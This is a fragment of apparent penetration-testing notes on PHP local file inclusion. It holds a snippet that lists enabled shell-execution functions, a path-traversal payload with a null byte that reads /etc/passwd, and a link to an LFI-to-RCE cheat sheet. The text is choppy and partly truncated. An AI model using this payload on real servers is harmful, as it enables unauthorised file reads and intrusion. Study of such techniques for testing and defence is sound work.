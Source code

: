 ```jsx
<?php

print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));

?>
```

to check wi

I used [Acunetix PHP script](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/) to check what functions are enabled:

```jsx
?file=../../../etc/passwd%00 ⇒ null byte to bypass extention
```

```jsx

```
- https://github.com/RoqueNight/LFI---RCE-Cheat-Sheet
